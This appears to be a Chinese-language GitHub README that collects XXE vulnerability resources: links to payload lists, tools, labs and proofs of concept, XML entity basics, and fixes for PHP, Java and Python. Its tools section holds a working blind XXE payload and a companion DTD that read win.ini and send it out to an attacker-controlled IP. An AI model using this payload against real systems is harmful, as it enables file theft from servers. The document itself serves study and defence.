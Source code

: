 # 《深入理解XXE漏洞》

本项目用来收集整理XXE漏洞的相关内容，包括XXE的利用方法工具或思路等。XXE漏洞往往不可以执行命令，但往往可以通过文件读取方法获取敏感信息，之后进一步Getshell！作者：[ASTTeam](https://github.com/ASTTeam/XXE)

本项目创建于2022年3月3日，最近的一次更新时间为2022年3月7日。本项目会持续更新，直到海枯石烂！

- [01-XXE漏洞资源]()
- [02-XXE漏洞基础]()
- [03-XXE漏洞工具]()
- [04-XXE渗透测试]()
- [05-XXE代码审计]()
- [06-XXE漏洞赏金]()
- [07-XXE漏洞修复]()

## 01-XXE漏洞资源

- https://github.com/topics/XXE
- https://github.com/topics/XXE
- https://github.com/search?q=XXE

一、XXE书籍资源

二、XXE培训演讲

三、XXE其他资源
- https://github.com/payloadbox/xxe-injection-payload-list
- https://github.com/omurugur/XXE_Payload_List
- https://github.com/trapp3rhat/XXE-injections
- https://github.com/HLOverflow/XXE-study
- https://github.com/deanf1/dotnet-security-unit-tests
- https://github.com/OlivierLaflamme/Auditing-Vulnerabilities
- https://github.com/samuel-knutson/dotnet-xxe-learning-tests
- https://github.com/hannoch/python-xxe
- https://github.com/mrpinghe/xxe-file-enum
- https://github.com/mprechtl/information-leakage
- https://github.com/rootz491/xxe-castor
- https://github.com/FrancescoDiSalesGithub/XXE-gen
- https://github.com/omurugur/Oracle_CTF_Web_XML_Entity_Exploit
- https://github.com/Wh1t3Fox/xxe.page
- https://github.com/magnus-longva-bouvet/xxe-demo
- https://github.com/yeeyeeweb/XXEER
- https://github.com/BuffaloWill/oxml_xxe
- https://github.com/TheTwitchy/xxer
- https://github.com/staaldraad/xxeserv
- https://github.com/AonCyberLabs/xxe-recursive-download
- https://github.com/joernchen/xxeserve
- https://github.com/ssexxe/XXEBugFind
- https://github.com/hackping/XXEpayload
- https://github.com/GoSecure/xxe-workshop
- https://github.com/ropnop/xxetimes
- https://github.com/Gifts/XXE-OOB-Exploitation-Toolset-for-Automation
- https://github.com/muttiopenbts/kisskissie
- https://github.com/SpiderMate/B-XSSRF
- https://github.com/vulnspy/phpaudit-XXE
- https://github.com/RihaMaheshwari/XXE-Injection-Payloads
- https://github.com/lc/230-OOB
- https://github.com/D4Vinci/XOE
- https://github.com/LandGrey/xxe-ftp-server
- https://github.com/vp777/metahttp
- https://github.com/incredibleindishell/XXE_Vulnerable_codes
- https://github.com/tjcim/xxefr
- https://github.com/sry309/XXE-Payload
- https://github.com/keven1z/XXEDemo
- https://github.com/Maskhe/xxeDemo
- https://github.com/d1y1n/xxetester

## 02-XXE漏洞基础

一、XXE漏洞概念（XML External Entity Injection）

- 什么是XML？

  - XML由3个部分构成，它们分别是：文档类型定义（Document Type Definition，DTD），即XML的布局语言；可扩展的样式语言（Extensible Style Language，XSL），即XML的样式表语言；以及可扩展链接语言（Extensible Link Language，XLL）。

- 四种实体？

  - 内置实体
    | 实体 | 实体引用 | 含义              |
    | ---- | -------- | ----------------- |
    | lt   | &lt;     | <（小于号）       |
    | gt   | &gt;     | >（大于号）       |
    | amp  | &amp;    | &（“and”符）      |
    | apos | &apos;   | '（撇号或单引号） |
    | quot | &quot;   | "（双引号）       |

  - 字符实体
  - 通用实体
  - 参数实体

- 什么是XXE漏洞？

  - XXE（XML外部实体注入，XML External Entity) ，在应用程序解析XML输入时，当允许引用外部实体时，可构造恶意内容，导致读取任意文件、探测内网端口、攻击内网网站、发起DoS拒绝服务攻击、执行系统命令等。.

- XXE漏洞分类？
  - OOB XXE：有回显
  - Blind XXE：无回显

三、XXE漏洞原理

四、XXE漏洞危害

五、XXE漏洞思考

- XXE漏洞如何执行系统命令？
- Blind XXE 如何读取敏感文件？

## 03-XXE漏洞工具

- 如何开发一个XXE渗透测试和代码审计的工具？

一、XXE payload

- Blind XXE 读取文件

```
<?xml version="1.0" ?>
<!DOCTYPE any[
<!ENTITY % file SYSTEM "file://c://Windows//win.ini">
<!ENTITY % remote SYSTEM "http://10.126.168.53/h.dtd">
%remote;
%send;
]>
<foo></foo>
```

```
// 在服务器中创建此文件，文件名称为h.dtd。通过日志查看读取到的文件内容
<!ENTITY % ppp "<!ENTITY &#x25; send SYSTEM 'http://10.126.168.53/?ccc=%file;'>">
%ppp;
```

二、XXE被动扫描

三、待整理
- https://github.com/GoSecure/dtd-finder
- https://github.com/luisfontes19/xxexploiter
- https://github.com/enjoiz/XXEinjector
- https://github.com/suanve/xxeserver

## 04-XXE渗透测试

一、XXE漏洞挖掘

- 如何挖掘XXE漏洞？
- XXE漏洞经常出现的位置？

二、XXE漏洞实战

三、XXE高级利用

## 05-XXE代码审计

一、XXE漏洞靶场

- https://github.com/c0ny1/xxe-lab
- https://github.com/keven1z/XXEDemo
- https://github.com/jbarone/xxelab
- https://github.com/brandonprry/vulnerable_xxe
- https://github.com/TheTwitchy/vulnd_xxe
- https://github.com/eileencodes/security_examples

二、XXE审计原理

三、XXE危险函数

- 在PHP中：
- 在Java中：
- 在.NET中：

四、XXE漏洞分析

- https://github.com/jas502n/CVE-2019-2888
- https://github.com/jamieparfet/Apache-OFBiz-XXE
- https://github.com/Wfzsec/Weblogic-XXE-poc

## 06-XXE漏洞赏金

- https://github.com/HoneTeam/XXE

## 07-XXE漏洞修复

- 方案一：使用开发语言提供的禁用外部实体的方法
  - PHP：
    1. libxml_disable_entity_loader设置为TRUE来禁用外部实体
  - Java：
    1. DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
    2. dbf.setExpandEntityReferences(false);
  - Python：
    1. from lxml import etree
    2. xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
- 方案二：过滤用户提交的XML数据
  - 过滤关键词：<!DOCTYPE和<!ENTITY，或者SYSTEM和PUBLIC。

## 08-XXE参考资源